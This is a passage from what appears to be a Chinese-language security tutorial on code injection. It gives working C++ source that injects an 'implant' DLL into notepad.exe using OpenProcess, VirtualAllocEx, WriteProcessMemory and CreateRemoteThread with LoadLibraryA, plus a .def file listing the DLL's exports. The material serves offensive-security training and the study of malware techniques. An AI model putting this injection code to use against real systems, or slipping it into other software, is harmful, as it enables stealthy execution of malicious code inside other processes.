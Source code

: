 ```cpp
                        pid = pe32.th32ProcessID;
                        break;
                }
        }     
        CloseHandle(hProcSnap);     
        return pid;
}

int main(int argc, char *argv[]) {

    HANDLE pHandle;
    PVOID remBuf;
    PTHREAD_START_ROUTINE pLoadLibrary = NULL;
    char dll[] = "C:\Users\rto\Desktop\src\07.Code_Injection\02.DLL\implantDLL.dll";
    char target[] = "notepad.exe";
    int pid = 0;

    pid = FindTarget(target);
    if ( pid == 0) {
        printf("Target NOT FOUND! Exiting.\n");
        return -1;
    }
    printf("Target PID: [ %d ]\nInjecting...", pid);

    pLoadLibrary = (PTHREAD_START_ROUTINE) GetProcAddress( GetModuleHandle("Kernel32.dll"), "LoadLibraryA");
    pHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)(pid));
    if (pHandle != NULL) {
        remBuf = VirtualAllocEx(pHandle, NULL, sizeof dll, MEM_COMMIT, PAGE_READWRITE); 
        WriteProcessMemory(pHandle, remBuf, (LPVOID) dll, sizeof(dll), NULL);
        CreateRemoteThread(pHandle, NULL, 0, pLoadLibrary, remBuf, 0, NULL);
        printf("done!\nremBuf addr = %p\n", remBuf);
        CloseHandle(pHandle); 
    }
    else {
        printf("OpenProcess failed! Exiting.\n");
        return -2;
    }
}
```

此外，还有个`.def`文件，在其中描述dll导出函数，用于编译链接过程中

```php
LIBRARY "ImplantDLL"
EXPORTS
  Go
```

编译执行及分析
-------

运行后，在process hacker工具中，查看到dll信息

![Luda40.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-c27e9f177e4482510a4f41ca87c0aea2ea69394c.png)